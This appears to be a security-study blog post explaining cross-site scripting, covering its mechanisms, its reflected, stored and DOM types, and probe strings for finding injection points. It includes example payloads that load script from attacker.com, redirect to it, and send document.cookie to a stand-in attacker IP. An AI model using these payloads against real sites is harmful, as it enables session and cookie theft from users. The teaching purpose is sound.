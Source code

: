 ```yaml
---
title: Cross-site scripting (XSS)
date: 2022-02-14 12:00:00 -0400
image: 
 src: https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/xss.jpg
 height: 1100
 width: 500
categories: [Web Security, Portswigger Academy]
tags: [web security, theory, owasp, xss]
---
```


Cross-site scripting known as XSS is a web vulnerability in which malicious scripts are injected int benign and trusted websites. XSS occur when an attacker send malicious code in any user input fields in a browser to a different end-user. 

## Mechanisms

In an XSS attack the attacker inject script in HTML code so you'll have to know javascript and HTML syntax, wbe uses scripts to control client-side application logic and make the website interactive, for example this script generates *Hello!* pop-up on the web page:

```html
<html>
    <script>alert("Hello!");</script>
    <h1>Welcome to my page</h1>
<html>
```
Script like this that are embedded in HTML file instead of loaded from are separated file are called *inline scripts*. These script causes XSS vulnerabilities, scripts can also be loaded from an external file like this: `<script src="URL_OF_EXTERNAL_FILE"></script>` 

If the website doesn't validate the input before render the message, it will cause XSS, *validating* user input means that the application checks that the user input meets a certain standard, *sanitizing* in the other hand means that the application modifies special characters in the input that can be used to interfere with HTML logic before further processing. 

As a result the inline script will cause a redirection to an another url. The src attribute of HTML script tag allwo to load javascript form external source, this code will execute the content of *https://attacker.om/xss.js/* on the victim browser:

```html
<script src=http://attacker.com/xss.js></script>
```
This example is not exploitable because there is no way of inject this in other users pages, but let´s say the site allow users to subscribe to a newsletter with the URL `https://subscribe.com?email?=USER_EMAIL` after the user visit this page, they are automatically subscribed, and the confirmation message will appear on the web, so we can inject xss payload for users who visit this URL `https://subscribe,com?email=<script>location="http://attacker.com";</script>` since the malicious script is incorporated in the page, the user will think its safe, so we can access any resources that the browser stores for that site, for example this code will steal user cookies by sending a request to the attacker IP.

```html
<script>image=new Image();
image.src='http://atttacker_site_ip/?c='+document.cookie;</script>
```


## Reflected XSS
Input from a user is directly returned to the browser, permitting injection of arbitrary content
A classic example would be a URL, which contain a parameter that can be altered by a user, where the input is mirrored and made visible.
Example URL: 'https://example.com/?user=jesus'
Example Output:

```html
<span id='user'>
	<b> Hi jesus</b>
</span>
```
## Stored XSS
Input from a user is stored on the server (database) and returned later without proper escaping and sanitization to the user
## DOM XSS
Input from a user is inserted into the page's DOM without proper handling, enabling insertion of arbitrary nodes


![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/sqli1.jpg)

Recognition for XSS

- Figure out where it goes, embedded in a tag attr or embedded in a script?
- Figure out how special characters are handled: A good way is to input something like `< > ' " { } ; :`

- `"><h1>test</h1>`
- `'+alert(1)+'`
- `"onmouseover="alert(1)`
- `http://onmouseover="alert(1)`